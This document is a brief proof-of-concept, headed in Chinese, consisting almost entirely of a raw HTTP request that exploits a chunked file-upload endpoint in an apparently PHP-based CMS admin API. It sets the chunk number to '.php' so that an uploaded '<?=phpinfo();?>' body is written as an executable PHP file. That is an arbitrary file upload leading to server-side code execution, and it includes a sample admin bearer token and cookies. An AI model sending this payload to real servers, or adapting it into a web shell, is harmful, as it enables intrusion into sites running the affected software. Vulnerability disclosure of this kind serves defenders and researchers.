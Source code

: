 POC数据包：

```php
POST /adminapi/file/video_upload?XDEBUG_SESSION_START=13429 HTTP/1.1
Host: localhost:45600
Content-Length: 842
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
Accept: application/json, text/plain, */*
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryBCTWThi2iCHWlO8M
Authori-zation: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJwd2QiOiIxZDlmMjExMGZlOTgzM2U1MTQ4MmQyZjdkMTFmZjFlNiIsImlzcyI6ImxvY2FsaG9zdDo0NTYwMCIsImF1ZCI6ImxvY2FsaG9zdDo0NTYwMCIsImlhdCI6MTY5NDA1NjkyMCwibmJmIjoxNjk0MDU2OTIwLCJleHAiOjE2OTY2NDg5MjAsImp0aSI6eyJpZCI6MSwidHlwZSI6ImFkbWluIn19.6gzs6MXyxnHOEckxP4ejuoNJxLpMcT3MdyLRPBAkJ8k
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost:45600
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:45600/admin/cms/article/add_article
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: cb_lang=zh-cn; PHPSESSID=23b220209fa9cd4879a5173dc74c2bba; uuid=1; token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJwd2QiOiIxZDlmMjExMGZlOTgzM2U1MTQ4MmQyZjdkMTFmZjFlNiIsImlzcyI6ImxvY2FsaG9zdDo0NTYwMCIsImF1ZCI6ImxvY2FsaG9zdDo0NTYwMCIsImlhdCI6MTY5NDA1NjkyMCwibmJmIjoxNjk0MDU2OTIwLCJleHAiOjE2OTY2NDg5MjAsImp0aSI6eyJpZCI6MSwidHlwZSI6ImFkbWluIn19.6gzs6MXyxnHOEckxP4ejuoNJxLpMcT3MdyLRPBAkJ8k; expires_time=1696648920; WS_ADMIN_URL=ws://localhost:45600/notice; WS_CHAT_URL=ws://localhost:45600/msg;XDEBUG_SESSION_START=13429;
Connection: close

------WebKitFormBoundaryBCTWThi2iCHWlO8M
Content-Disposition: form-data; name="chunkNumber"

.php
------WebKitFormBoundaryBCTWThi2iCHWlO8M
Content-Disposition: form-data; name="chunkSize"

3145728
------WebKitFormBoundaryBCTWThi2iCHWlO8M
Content-Disposition: form-data; name="currentChunkSize"

52
------WebKitFormBoundaryBCTWThi2iCHWlO8M
Content-Disposition: form-data; name="file"; filename="blob"
Content-Type: application/octet-stream

<?=phpinfo();?>
------WebKitFormBoundaryBCTWThi2iCHWlO8M
Content-Disposition: form-data; name="filename"

token.mp4
------WebKitFormBoundaryBCTWThi2iCHWlO8M
Content-Disposition: form-data; name="totalChunks"

1
------WebKitFormBoundaryBCTWThi2iCHWlO8M
Content-Disposition: form-data; name="md5"

6a2d9342b9afb96e10fef23910e0e1eb
------WebKitFormBoundaryBCTWThi2iCHWlO8M--
```
